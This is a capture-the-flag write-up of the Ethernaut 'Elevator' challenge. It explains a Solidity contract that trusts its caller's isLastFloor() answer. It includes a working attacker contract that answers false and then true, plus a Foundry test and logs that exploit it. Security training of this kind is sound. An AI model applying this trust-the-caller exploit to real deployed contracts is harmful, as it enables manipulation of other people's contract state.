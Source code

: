 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `11-Elevator` Challenge, You Should Try To find a Way to Go to Top of the Building Successfully Using the Elevator.

`11-Elevator` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

<br>

# How did i Complete This Challenge?

<br>

I made a little change `Elevator` Contract Which Just Changed Interface Name from `Building` to `IBuilding`.

So Now Looks Like This:

```javascript
    interface IBuilding {
        function isLastFloor(uint256) external returns (bool);
    }

    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            IBuilding building = IBuilding(msg.sender);


            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
```

When We Analyze the `Elevator` Contract, We See that it uses an interface. Right Away, You Should Ask Yourself: What's The Purpose of Using Interface in This Contract or Even in Soliidty?

One of the Main Reasons is to Interact With Smart Contracts Specific Functions But Using Less Gas.

Now When You See This line: `IBuilding building = IBuilding(msg.sender)`, it means the `msg.sender` is a Contract, Which We Use a Interface to Interact with `isLastFloor()` function.

Now This `isLastFloor` Function it Should Work in a Way to Successfully Pass the If Statement. Since `isLastFloor()` Returns a Boolean Value and the If Statement itself Requires the
condition to be `true`, in order to Execute Rest of the Code, this Indicates that returned value from `isLastFloor()` function, should be `false` and then we flip it back to `true` When
we use `!` with `false`. (`if (!false == true) {execute rest of the code}`)

Now What the Contract Should do is return `true` if it's Last Floor of the Building and return `false` if it's not. (kinda)

But One thing You Probably Didn't Notice is, if the `_floor` number we pass in, is actually the Last Floor of the Building, it will return `true` and When We Combine `!` with `true` (`!true`) it will flip back to `false` which the condition of the if statement will be `false`, resulting in Not Executing the Rest of the code inside the if statement.

What Attacker Can do Here is, if `_floor` number is Passed in is the Last Floor, Return `false` first time, so the code inside the if statement get's executed and return `true` second time
if the `_floor` Number Passed in, is The Last Floor of the Building.

So Basically We Want this Line `if (!building.isLastFloor(_floor))}` condition equals to `true` by `isLastFloor()` function returning `false` and `top = building.isLastFloor(floor)` to be
`true`.

So it looks Like this:

```javascript
    if (!building.isLastFloor(_floor)) {    
        floor = _floor;
        top = building.isLastFloor(floor);
    }

    if (!false) {    
        floor = _floor;
        top = true;
    }
```

Attacker Can Use Similar Contract Like This In Order to Go Top Of the Building Successfully: (lets say the Last Floor of the Building is `10`)

```javascript
    contract Building is IBuilding {
        Elevator elevator;
        uint256 public lastFloor = 10;
        bool isFirstCall = true;
    
        constructor(Elevator _elevator) {
            elevator = _elevator;
        }
    
        function useElevator(uint256 _floor) external {
            elevator.goTo(_floor);
        }
    
        function isLastFloor(uint256 _floor) external returns (bool isLastFloorBoolean) {
            if (_floor > lastFloor) {
                revert("This Building Only Has 10 Floors");
            }
    
            if (_floor != lastFloor) {
                isLastFloorBoolean = false;
            } else if (_floor == 10) {
                if (isFirstCall) {
                    isFirstCall = false;
                    return false;
    
                } else if (!isFirstCall) {
                    isFirstCall = true;
                    return true;
                }
            }
        }
}
```


Here's the Test i Wrote inside the `Elevator.t.sol` Which You Can Run to Exploit the `Elevator` Contract:

```javascript
    function testElevatorIsWorkingCorrectly() external {
        Building building = new Building(elevator);
        
        console.log("The Last Floor in this Building is 10.");
        console.log("Lets Use Elevator To Go To Floor 3.");

        building.useElevator(3);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 3);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), false);


        console.log("Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.");

        building.useElevator(10);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 10);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), true);
    }
```

You Can Run it with Command Below:

```javascript
    forge test --match-test testElevatorIsWorkingCorrectly -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        The Last Floor in this Building is 10.
        Lets Use Elevator To Go To Floor 3.
        We Are Currently On Floor:  3
        is This the Top of the Building?  false
        Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.
        We Are Currently On Floor:  10
        is This the Top of the Building?  true
```
